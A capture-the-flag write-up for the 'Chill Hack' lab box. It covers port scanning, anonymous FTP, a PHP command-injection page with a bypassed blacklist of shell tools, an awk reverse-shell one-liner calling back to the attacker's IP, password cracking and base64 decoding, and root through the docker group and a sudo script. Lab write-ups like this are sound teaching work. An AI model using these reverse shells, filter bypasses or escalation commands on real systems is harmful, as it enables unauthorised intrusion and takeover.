




# CHILL HACK

#Linux #PHP #PrivEsc #CommandInjection #Docker

## Enumeration

I started running nmap and I got the result:

```
$ nmap -sV -sC 10.64.134.207
Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-28 06:31 -0500
Nmap scan report for 10.64.134.207
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.183.77
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 10:c9:6e:99:92:73:76:63:63:31:bb:90:4d:18:4f:47 (RSA)
|   256 03:1b:5f:85:75:05:59:01:18:3c:04:41:a3:58:ba:58 (ECDSA)
|_  256 17:98:21:4a:7a:d3:1a:4e:d5:c9:7c:0a:ab:a8:c3:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.83 seconds
```

As you can see, I can log in on FTP using the login and password `anonymous`.

```
$ ftp 10.64.134.207
Connected to 10.64.134.207.
220 (vsFTPd 3.0.5)
Name (10.64.134.207:user): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62960|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
ftp> get note.txt
local: note.txt remote: note.txt
```

There was only one file, we can take a look. Later we will find out this is about a clue.

```
$ cat note.txt             
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Next, I used ffuf to find some possible directories.

```
$ ffuf -u http://10.64.134.207/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.64.134.207/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css               [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 126ms]
images            [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 127ms]
fonts             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 126ms]
js                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 489ms]
secret            [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 126ms]
server-status     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 127ms]
```

## Exploiting

The only interesting directory was `secret`. We can see that we can inject a command and the application will return the result. 

<figure><figcaption></figcaption></figure>

We can run `id` command.
<figure><figcaption></figcaption></figure>

But when I run some commands like `ls` or try to get a shell using `sh` or `bash`, the application returns the error "Are you a hacker?"

<figure><figcaption></figcaption></figure>

The clue we were given in the note.txt file was correct: there is some filter preventing the execution of certain commands.

So I tried several reverse shell techniques to get a shell, but this one worked for me:

```
awk 'BEGIN {s = "/inet/tcp/0/192.168.183.77/1337"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

<figure><figcaption></figcaption></figure>

*I also managed to bypass this filter using `l\s` with a backslash (The application was filtering the entire command without checking if there was anything in the command; once `l\s` is a valid command, it could be executed).*

I was able to confirm in the `index.php` file about which filters were being used. 

```php
$ cat index.php
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
                                {?>
                                        <h1 style="color:red;">Are you a hacker?</h1>
                                        <style>
                                                body
                                                {
                                                        background-image: url('images/FailingMiserableEwe-size_restricted.gif');
                                                        background-position: center center;
                                                        background-repeat: no-repeat;
                                                        background-attachment: fixed;
                                                        background-size: cover;
        }
                                        </style>
<?php                                    return;
                                }
                        }
                }
                ?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        <?php }
?>
</body>
</html>
```

I was looking for some interesting files on `/var/www` folder and I found on `files` folder a `index.php` file that have a credentials to connect to MySQL. 

<figure><figcaption></figcaption></figure>

I was able to connect to MySQL with these credentials and I've got some hashes.

<figure><figcaption></figcaption></figure>

Using the hash, I was able to discover Anurodh's password, I tried to log into the user Anurodh with that password but it didn't work. (I will use that password later)

<figure><figcaption></figcaption></figure>

After that, I got a little stuck. I kept examining that folder and I found some images. I tried to analyze these images via stenography with a tool called `steghide`.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

I managed to get a file called backup.zip, but when I tried to unzip it, it asked for a password, and none of the passwords I've come up with so far have worked. So I used `zip2john` which convert the zip file to a hash file which can then be cracked.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
I managed to discover the password `pass1word` and now I can unzip the file. I found a file called `source_code.php`, inside this file I noticed that there is a password encoding using base64.

<figure><figcaption></figcaption></figure>

So I decoded that and I finally found Anurodh's password.

```
$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Once I run `id` I noticed that this user is in a docker group. I was able to take advantage of this to escalate privilege to get root.

https://gtfobins.github.io/gtfobins/docker/#shell

```
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><figcaption></figcaption></figure>


```
www-data@ip-10-64-134-207:/home$ sudo -l
Matching Defaults entries for www-data on ip-10-64-134-207:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-64-134-207:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

```
www-data@ip-10-64-134-207:/home$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```


```
www-data@ip-10-64-134-207:/home$ bash /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: test
Hello user! I am a,  Please enter your message: ping 192.168.183.77
PING 192.168.183.77 (192.168.183.77) 56(84) bytes of data.
64 bytes from 192.168.183.77: icmp_seq=1 ttl=62 time=127 ms
64 bytes from 192.168.183.77: icmp_seq=2 ttl=62 time=126 ms
64 bytes from 192.168.183.77: icmp_seq=3 ttl=62 time=127 ms
```

```
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:00:48.388177 IP 10.64.134.207 > 192.168.183.77: ICMP echo request, id 2, seq 1, length 64
08:00:48.388187 IP 192.168.183.77 > 10.64.134.207: ICMP echo reply, id 2, seq 1, length 64
08:00:49.389782 IP 10.64.134.207 > 192.168.183.77: ICMP echo request, id 2, seq 2, length 64
08:00:49.389801 IP 192.168.183.77 > 10.64.134.207: ICMP echo reply, id 2, seq 2, length 64
08:00:50.390550 IP 10.64.134.207 > 192.168.183.77: ICMP echo request, id 2, seq 3, length 64
08:00:50.390563 IP 192.168.183.77 > 10.64.134.207: ICMP echo reply, id 2, seq 3, length 64
```


```
www-data@ip-10-64-134-207:/home$ sudo -u apaar /home/apaar/.helpline.sh 

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: me
Hello user! I am me,  Please enter your message: /bin/bash
whoami
apaar
python3 -c "import pty; pty.spawn('/bin/bash')"
apaar@ip-10-64-134-207:/home$ whoami
apaar

```


